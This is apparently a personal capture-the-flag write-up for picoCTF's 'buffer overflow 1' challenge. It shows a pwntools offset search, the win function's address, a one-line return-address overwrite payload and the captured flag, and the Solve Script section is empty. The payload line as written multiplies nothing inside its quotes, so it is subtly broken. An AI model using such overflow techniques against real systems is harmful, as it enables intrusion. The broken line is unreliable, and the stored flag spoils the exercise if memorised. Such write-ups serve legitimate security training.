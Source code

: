 # Contents
- Task Description
- Notes
- Solve Script


## Task Description
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/252/vuln).You can view source [here](https://artifacts.picoctf.net/c/252/vuln.c). And connect with it using `nc saturn.picoctf.net 54900`

## Notes
quick file checks shows that it is a ELF 32 bit.
Looking in gdb-pwndbg there is an intresting function called win. This function is not called normally so it must be the flag?

Generate a cyclic pattern in python
```python
from pwn import *
g = cyclic_gen()
g.get(100)
```

Running the program with the payload gives a seg fault.
calculating the offset to be: 44

All that is left to get is the location of the win function.
0x80491f6
Generate payload
```bash
python2 -c 'print "A*44"+"\xf6\x91\x04\x08"'>payload
```
then run against the server.
```flag
picoCTF{addr3ss3s_ar3_3asy_c76b273b}
```

## Solve Scipt



---
Creation date: 10-10-2022

Last modified date: Monday 10th October 2022
***
